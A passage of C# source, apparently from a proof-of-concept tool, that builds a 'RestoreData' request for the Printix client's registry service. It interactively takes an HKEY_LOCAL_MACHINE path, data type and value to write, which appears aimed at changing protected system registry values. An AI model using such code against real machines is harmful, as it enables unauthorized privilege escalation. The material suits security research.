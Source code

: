                     PersistentRegistryData persistentRegistryData = new PersistentRegistryData();
                    persistentRegistryData.cmd = PersistentRegistryCmds.RestoreData;
                    persistentRegistryData.VDIType = 12; //(int)DefaultValues.VDIType;
                                                         //persistentRegistryData.path = "printix\\SOFTWARE\\Intel\\HeciServer\\das\\SocketServiceName";
                    Console.WriteLine("\n What Node starting from \\\\Local-Machine\\ would you like to select? \n");
                    Console.WriteLine("Example: HKEY_LOCAL_MACHINE\\SOFTWARE\\Intel\\HeciServer\\das\\SocketServiceName\n");
                    Console.WriteLine("You can only change values in HKEY_LOCAL_MACHINE");
                    Console.Write("Registry Node: ");
                    persistentRegistryData.path = "" + Console.ReadLine().Replace("HKEY_LOCAL_MACHINE","printix");
                    Console.WriteLine("Full Address Set To:  " + persistentRegistryData.path);

                    //persistentRegistryData.registryData = new byte[2];
                    //byte[] loader = selectDataType("Intel(R) Capability Licensing stuffidkreally", RegistryValueKind.String);

                    Console.WriteLine("\n What Data type are you using? \n1. String 2. Dword  3. Qword 4. Multi String  \n");
                    Console.Write("Type:  ");
                    int dataF = int.Parse(Console.ReadLine());
                    Console.WriteLine("Set Data to: " + dataF);

                    Console.WriteLine("\n What value is your type?  \n");
                    Console.Write("Value:  ");
                    string dataB = Console.ReadLine();
                    Console.WriteLine("Set Data to: " + dataF);

                    byte[] loader = null;
                    List<byte> byteContainer = new List<byte>();
                    //Dword = 4
                    //SET THIS NUMBER TO THE TYPE OF DATA YOU ARE USING! (CHECK ABOVE FUNCITON selectDataType()!)

                    switch (dataF)
                    {
                        case (1):

                            loader = selectDataType(dataB, RegistryValueKind.String);
                            byteContainer.Add(1);
                            break;
                        case (2):
                            loader = selectDataType(int.Parse(dataB), RegistryValueKind.DWord);
                            byteContainer.Add(4);
                            break;
                        case (3):
                            loader = selectDataType(long.Parse(dataB), RegistryValueKind.QWord);
                            byteContainer.Add(11);
                            break;
                        case (4):
                            loader = selectDataType(dataB.Split('%'), RegistryValueKind.MultiString);
                            byteContainer.Add(7);
                            break;

                    }

                    int pathHolder = 0;
                    foreach (byte bit in loader)
                    {
                        pathHolder++;
                        byteContainer.Add(bit);
                    }
